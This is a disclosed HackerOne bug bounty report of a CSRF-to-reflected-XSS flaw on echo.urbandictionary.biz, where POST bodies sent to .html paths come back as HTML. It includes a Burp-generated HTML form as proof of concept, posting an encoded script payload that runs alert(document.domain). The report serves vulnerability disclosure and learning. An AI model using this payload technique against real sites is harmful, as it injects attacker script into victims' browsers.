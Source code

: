 # CSRF to Reflected XSS at echo.urbandictionary.biz via spoofing content type

## Report Details
- **Report ID**: 1237321
- **URL**: https://hackerone.com/reports/1237321
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-17T23:48:45.753Z
- **Disclosed**: 2025-03-11T21:40:34.365Z

## Reporter
- **Username**: osama-hamad
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: urbandictionary

## Vulnerability Information
## Details
 
The host is vulnerable to XSS due to the fact that it does reflect any sent POST request body when the request sent to any existed/non-existed filename with .html extension which spoof the response content type to HTML.


## Proof of Concept

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://echo.urbandictionary.biz/xsxsxs.html" method="POST" enctype="text/plain">
      <input type="hidden" name="&#13;&#10;&lt;script&gt;alert&#40;document&#46;domain&#41;&lt;&#47;script&gt;" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```


{F1343026}

## Impact

Typical cross site scripting impact, Injecting malicious javascript code into victim browser.

## Attachments
- 1.png

